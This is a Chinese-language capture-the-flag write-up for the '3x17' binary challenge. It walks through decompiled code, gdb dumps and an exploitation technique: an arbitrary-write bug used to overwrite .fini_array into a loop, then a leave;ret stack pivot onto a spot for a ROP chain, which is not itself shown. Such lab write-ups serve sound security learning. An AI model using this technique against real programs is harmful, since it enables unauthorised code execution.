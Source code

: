 # 3x17
先透過找 .rodata 中的 "addr:" 字串去找到 main 的位置

透過 reverse 和 gdb 可以轉換為

```
__int64 __fastcall sub_401B6D(__int64 a1, char *a2, __int64 a3)
{
  __int64 result; // rax
  char *v4; // ST08_8
  char buf; // [rsp+10h] [rbp-20h]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  result = (unsigned __int8)++byte_4B9330;
  if ( byte_4B9330 == 1 )
  {
    write(1u, "addr:", 5uLL);
    read(0, &buf, 0x18uLL);
    v4 = (char *)(signed int)string_to_int(&buf, &buf);
    write(1u, "data:", 5uLL);
    read(0, v4, 0x18uLL);
    result = 0LL;
  }
  if ( __readfsqword(0x28u) != v6 )
    sub_44A3E0();
  return result;
}
```
其中 string_to_int 可以透過 gdb 發現輸入 123 會變成 0x4d2，之後會對 0x4d2 做 write，因此我們要修改任何一次的位置來去達到 rce = =

而 stack 位置會因為 aslr 的緣故會變動。
去看這篇[文章](https://b0ldfrev.gitbook.io/note/pwn/zhong-xie-.finiarray-han-shu-zhi-zhen)有提到可以去修改 .fini_array 讓程式結束時可以跳到我們想要跳到的地方。

 main ----->  __libc_csu_fini  ------>  .fini_array[1] ------->   .fini_array[0]    
 
```
(base) yuan@yuan-All-Series:~/Downloads$ objdump -h 3x17
 14 .init_array   00000010  00000000004b40e0  00000000004b40e0  000b30e0  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 15 .fini_array   00000010  00000000004b40f0  00000000004b40f0  000b30f0  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 16 .data.rel.ro  00002df4  00000000004b4100  00000000004b4100  000b3100  2**5
                  CONTENTS, ALLOC, LOAD, DATA

```
去看 gdb 發現有兩個位置
```
gdb-peda$ x/20gx 0x0000000004b40f0
0x4b40f0:	0x0000000000401b00	0x0000000000401580
```
由於 .fini_array 是從由後往前呼叫，嘗試去修改 0x4b40f8，然而因為 byte_4B9330 在 bss 段，如果每次執行都會 + 1，跳第2次則不會跳到 read 中。

用 ida 去看 libc_start
```
public start
start proc near
; __unwind {
xor     ebp, ebp
mov     r9, rdx
pop     rsi
mov     rdx, rsp
and     rsp, 0FFFFFFFFFFFFFFF0h
push    rax
push    rsp
mov     r8, offset sub_402960
mov     rcx, offset loc_4028D0
mov     rdi, offset sub_401B6D
db      67h
call    sub_401EB0
hlt
; } // starts at 401A50
start endp

```
每個記憶體的[對照](https://www.jianshu.com/p/c4f081d9f32d)
```
main:       %rdi <-- sub_401B6D
argc:       %rsi <-- [RSP]
argv:       %rdx <-- [RSP + 0x8]
init:       %rcx <-- loc_4028D0
fini:       %r8  <-- sub_402960
rtld_fini:  %r9 <-- rdx on entry
stack_end:  stack <-- rsp
```
因此把 `.fini_array[1]` 改成 main，`.fini_array[0]` 改成 fini，這樣程式會一直無限循環直到 byte_4B9330 overflow 成 1 就能執行到 read/write。
這樣程式執行流程大致上長這樣

main -> .fini -> `.fini_array[1](main)` -> `.fini_array[0](.fini)` -> `.fini_array[1](main)` .......無限循環

在 `__libc_csu_fini` 可以看到 
```
lea    rbp,[rip+0xb1781]        # 0x4b40f0
call    qword ptr [rbp+rbx*8+0]
```
call 是呼叫 .fini.array 中，因此 call 這邊是我們可以控的
在 .fini 會從 `0x402988:	call   QWORD PTR [rbp+rbx*8+0x0]`
跳到我們給的
```
0x401c4b:	leave  
0x401c4c:	ret
```
執行完 leave
```
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x1 
RDX: 0x402960 (push   rbp)
RSI: 0x0 
RDI: 0x0 
RBP: 0x401c4b (leave)
RSP: 0x4b40f8 --> 0x401580 (mov    rax,QWORD PTR [rip+0xb8b11]        # 0x4ba098)
RIP: 0x401c4c (ret)
R8 : 0x7ffd5be7a1f7 --> 0x4b701800 
R9 : 0x0 
R10: 0x495740 --> 0x100000000 
R11: 0x246 
R12: 0x4b7100 --> 0x4b98e0 --> 0x0 
R13: 0x1 
R14: 0x4b98e0 --> 0x0 
R15: 0x1
EFLAGS: 0x213 (CARRY parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401c44:	je     0x401c4b
   0x401c46:	call   0x44a3e0
   0x401c4b:	leave  
=> 0x401c4c:	ret    
   0x401c4d:	nop    DWORD PTR [rax]
   0x401c50:	push   rbx
   0x401c51:	sub    rsp,0x88
   0x401c58:	test   rdi,rdi
[------------------------------------stack-------------------------------------]
0000| 0x4b40f8 --> 0x401580 (mov    rax,QWORD PTR [rip+0xb8b11]        # 0x4ba098)
0008| 0x4b4100 --> 0xd00000002 
0016| 0x4b4108 --> 0x48f7e0 --> 0x0 
0024| 0x4b4110 --> 0x48f7c0 --> 0x100000000 
0032| 0x4b4118 --> 0x0 
0040| 0x4b4120 --> 0x4b6460 --> 0x0 
0048| 0x4b4128 --> 0x1 
0056| 0x4b4130 --> 0x4b63e0 --> 0x0 
[------------------------------------------------------------------------------]

```
執行完 ret
```
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x1 
RDX: 0x402960 (push   rbp)
RSI: 0x0 
RDI: 0x0 
RBP: 0x401c4b (leave)
RSP: 0x4b4100 --> 0xd00000002 
RIP: 0x401580 (mov    rax,QWORD PTR [rip+0xb8b11]        # 0x4ba098)
R8 : 0x7ffd5be7a1f7 --> 0x4b701800 
R9 : 0x0 
R10: 0x495740 --> 0x100000000 
R11: 0x246 
R12: 0x4b7100 --> 0x4b98e0 --> 0x0 
R13: 0x1 
R14: 0x4b98e0 --> 0x0 
R15: 0x1
EFLAGS: 0x213 (CARRY parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401570:	call   0x4010e4
   0x401575:	call   0x4010e4
   0x40157a:	nop    WORD PTR [rax+rax*1+0x0]
=> 0x401580:	mov    rax,QWORD PTR [rip+0xb8b11]        # 0x4ba098
   0x401587:	test   rax,rax
   0x40158a:	je     0x4015a7
   0x40158c:	mov    ecx,0xe
   0x401591:	lea    rdi,[rip+0xa5e34]        # 0x4a73cc
[------------------------------------stack-------------------------------------]
0000| 0x4b4100 --> 0xd00000002 
0008| 0x4b4108 --> 0x48f7e0 --> 0x0 
0016| 0x4b4110 --> 0x48f7c0 --> 0x100000000 
0024| 0x4b4118 --> 0x0 
0032| 0x4b4120 --> 0x4b6460 --> 0x0 
0040| 0x4b4128 --> 0x1 
0048| 0x4b4130 --> 0x4b63e0 --> 0x0 
0056| 0x4b4138 --> 0x1 
[------------------------------------------------------------------------------]

```
可以看到他跳到 0x401580 (因為 0x4b40f8 中放 這個位置)，而 rsp 被移到 0x4b100

最後會跳到 ret ，所以會跳到 0x4b4100 位置上，因此可以在 0x4b4100 上放 rop chain
